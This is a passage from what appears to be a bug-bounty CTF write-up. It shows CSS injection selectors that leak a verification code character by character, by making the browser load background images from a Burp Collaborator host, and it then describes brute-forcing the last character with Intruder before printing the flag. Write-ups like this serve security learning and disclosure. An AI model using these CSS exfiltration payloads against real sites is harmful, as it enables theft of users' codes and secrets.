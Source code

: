 }
input[name^=code_4][value^=A] ~ * {
    background-image: url(https://burpcollaborator/code4/A);
}
input[name^=code_5][value^=A] ~ * {
    background-image: url(https://burpcollaborator/code5/A);
}
input[name^=code_6][value^=A] ~ * {
    background-image: url(https://burpcollaborator/code6/A);
}
```
so sending upon this css to app_style fetched me 6 values then 7th value was fetched by loading the position in intruder and sending payloads A-Z,a-z,0-9 
finally the response length 2163 was carrying the flag 


# ^FLAG^736c635d8842751b8aafa556154eb9f3$FLAG$
{F853462}

## Impact

...

## Attachments
- bounty1.mp4
- bounty2.mp4
- bounty3.mp4
- Screenshot_from_2020-06-03_14-17-32.png
- bounty4.mp4
- Screenshot_from_2020-06-03_11-29-30.png
- Screenshot_from_2020-06-03_11-38-42.png
- Screenshot_from_2020-06-03_12-26-54.png
- Screenshot_20200602-174438_BountyPay.png
- Screenshot_from_2020-06-03_12-43-20.png
- Screenshot_from_2020-06-03_13-16-51.png
- Screenshot_from_2020-06-03_13-22-13.png
- Screenshot_from_2020-06-02_01-55-40.png
- bounty5.mp4
- bounty6.mp4
- bounty7.mp4
- bounty8.mp4
